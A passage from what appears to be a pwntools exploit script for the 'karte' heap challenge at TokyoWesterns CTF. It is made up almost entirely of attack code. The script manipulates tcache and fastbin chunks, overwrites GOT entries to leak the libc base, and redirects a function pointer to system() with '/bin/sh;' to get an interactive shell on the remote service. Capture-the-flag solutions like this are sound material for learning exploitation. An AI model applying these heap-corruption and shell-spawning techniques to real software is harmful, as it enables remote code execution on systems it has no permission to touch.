 ```python
        idx = add(0x68, 'swing tql')
        delete(idx)

    for i in range(7):
        idx = add(0x10, 'swing tql')
        delete(idx)

    idx1 = add(0x78, 'swing tql')
    idx2 = add(0x78, 'swing tql')
    delete(idx1)
    delete(idx2)
    modify(idx2, p64(0x6021A0)[ : 4])
    idx1 = add(0x78, 'swing tql')
    

    idx2 = add(0x78, p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 2 + p64(0) + p64(0x21) + p64(0) * 4 + p64(0) + p64(0x21))
    rename(p64(0) + p64(0x21))
    idx3 = add(0x801, 'swing tql')
    delete(idx2)
    delete(idx3)

    rename(p64(0) + p64(0x21) + p64(0) + p64(0x602118 - 5 - 0x10))

    idx2 = add(0x10, 'swing tql')
    rename(p64(0) + p64(0x71))
    delete(idx2)
    rename(p64(0) + p64(0x71) + p64(0x602110))
    delete(idx1)

    idx1 = add(0x68, '/bin/sh;')
    # gdb.attach(p, 'b * 0x400B17\nc')
    idx2 = add(0x68, p64(0x0000000400000003) + p64(0) * 3 + p64(0x0000100000001) + p64(0x602018) + p64(0) + p64(0) + p64(0x0000200000001) + p64(0x602068) + p64(0x0000deadc0bebeef))

    modify(1, p64(0x400760)[ : 6])
    delete(2)
    libc_base = u64(p.recvline()[ : -1] + '\x00' * 2) - 0x97070
    log.info('libc base is : ' + hex(libc_base))
    system_addr = libc_base + 0x4f440

    modify(2, p64(system_addr)[ : 6])

    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil(' > ')
    p.sendline(str(0x6021b0))



    p.interactive()

if __name__ == '__main__':
    GameStart('karte.chal.ctf.westerns.tokyo', 10001, 0)
```
